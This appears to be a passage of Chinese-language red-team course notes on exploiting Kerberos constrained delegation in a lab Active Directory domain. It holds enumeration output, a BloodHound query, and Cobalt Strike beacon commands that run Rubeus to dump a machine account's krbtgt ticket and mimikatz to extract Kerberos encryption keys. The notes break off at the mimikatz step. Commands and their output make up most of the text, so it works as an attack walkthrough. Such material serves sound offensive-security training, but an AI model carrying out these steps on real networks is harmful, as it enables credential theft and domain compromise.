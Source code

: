 [*] No domain supplied. This PC's domain will be used instead
[*] LDAP://DC=dev,DC=cyberbotic,DC=io
[*] CUSTOM SEARCH: 
[*] TOTAL NUMBER OF SEARCH RESULTS: 1
[
  {
    "cn": "SRV-2",
    "dnshostname": "srv-2.dev.cyberbotic.io",
    "samaccountname": "SRV-2$",
    "msds-allowedtodelegateto": [
      "eventlog/dc-2.dev.cyberbotic.io/dev.cyberbotic.io",
      "eventlog/dc-2.dev.cyberbotic.io",
      "eventlog/DC-2",
      "eventlog/dc-2.dev.cyberbotic.io/DEV",
      "eventlog/DC-2/DEV",
      "cifs/wkstn-2.dev.cyberbotic.io",
      "cifs/WKSTN-2"
    ]
  }
]
```

2. BloodHound

```
MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
```

注意，约束委派可以是机器账号和用户账号，确保搜索两者。


## 执行委托


1. Rubeus

```
beacon> run hostname
srv-2

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe triage
 --------------------------------------------------------------------------------------------------------------- 
 | LUID    | UserName                   | Service                                       | EndTime              |
 --------------------------------------------------------------------------------------------------------------- 
 | 0x3e4   | srv-2$ @ DEV.CYBERBOTIC.IO | krbtgt/DEV.CYBERBOTIC.IO                      | 12/5/2021 8:06:05 AM |
 | [...snip...]                                                                                                |
 --------------------------------------------------------------------------------------------------------------- 

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap
```

2. mimikatz
```
beacon> mimikatz sekurlsa::ekeys
